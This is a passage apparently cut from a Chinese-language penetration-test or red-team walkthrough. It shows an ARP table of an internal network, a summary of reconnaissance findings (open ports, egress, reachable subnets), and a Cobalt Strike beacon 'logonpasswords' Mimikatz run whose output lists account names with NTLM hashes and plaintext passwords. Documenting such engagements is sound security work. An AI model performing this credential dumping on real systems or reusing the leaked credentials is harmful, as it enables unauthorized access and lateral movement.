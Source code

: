```
 192.168.11.24         00-50-56-ac-2e-20     dynamic   
 192.168.11.25         00-50-56-ac-3c-8d     dynamic   
 192.168.11.27         00-50-56-ac-39-75     dynamic   
 192.168.11.28         00-50-56-ac-6d-4a     dynamic   
 192.168.11.29         00-50-56-ac-17-91     dynamic   
 192.168.11.30         00-50-56-81-7b-ac     dynamic   
 192.168.11.31         00-50-56-ac-7a-e6     dynamic   
 192.168.11.32         00-50-56-ac-1b-59     dynamic   
 192.168.11.33         00-50-56-ac-45-63     dynamic   
 192.168.11.34         00-50-56-ac-15-df     dynamic   
 192.168.11.35         00-50-56-ac-33-c7     dynamic   
 192.168.11.36         00-50-56-ac-4d-8f     dynamic   
 192.168.11.37         00-50-56-ac-3c-0d     dynamic   
 192.168.11.41         00-50-56-ac-6c-ca     dynamic   
 192.168.11.42         00-50-56-ac-71-c4     dynamic   
 192.168.11.43         00-50-56-ac-78-8c     dynamic   
 192.168.11.44         00-50-56-ac-1a-e4     dynamic   
 192.168.11.45         00-50-56-ac-55-d2     dynamic   
 192.168.11.46         00-50-56-ac-35-f0     dynamic   
 192.168.11.47         00-50-56-ac-20-15     dynamic   
 192.168.11.48         00-50-56-ac-50-43     dynamic   
 192.168.11.49         00-50-56-ac-58-db     dynamic   
 192.168.11.50         00-50-56-ac-49-e7     dynamic   
 192.168.11.51         00-50-56-ac-6f-4f     dynamic   
 192.168.11.52         00-50-56-ac-4c-c1     dynamic   
 192.168.11.53         00-50-56-ac-6a-5a     dynamic   
 192.168.11.54         00-50-56-ac-16-f7     dynamic   
 192.168.11.69         00-50-56-ac-1c-ce     dynamic   
 192.168.11.77         00-50-56-ac-55-3f     dynamic   
 192.168.11.226        00-50-56-86-39-85     dynamic   
 192.168.11.227        00-50-56-ac-7b-92     dynamic   
 192.168.11.228        00-0c-29-e1-27-7e     dynamic   
 192.168.11.255        ff-ff-ff-ff-ff-ff     static    
 224.0.0.252           01-00-5e-00-00-fc     static    
 255.255.255.255       ff-ff-ff-ff-ff-ff     static    
```


根据此两条命令的执行结果可以看出：

- 此机器不是域控（未开 389 端口）
- 此机器开放了80、443、135、445、3389 端口
- 此机器 TCP 协议出网
- 此机器通内网的 192.168.11.*/24 网段，此网段数台主机存活
- 此机器通内网的 192.168.0.*/24 网段


## Mimikatz 抓取凭据：

```
beacon> logonpasswords
本地用户：
.\Administrator e19ccf75ee54e06b06a5907af13cef42
SRVHYBEX\Administrator P@ssw0rd
SRVHYBEX\Administrator e19ccf75ee54e06b06a5907af13cef42
HFANGDICHAN.LOCAL\administrator P@ssw0rd
域用户：
HFANGDICHAN\irm_service 0c3c8ea63c5181a5cdf24a83fb54a2e6
HFANGDICHAN\irm_service iydKk8er^f123
```
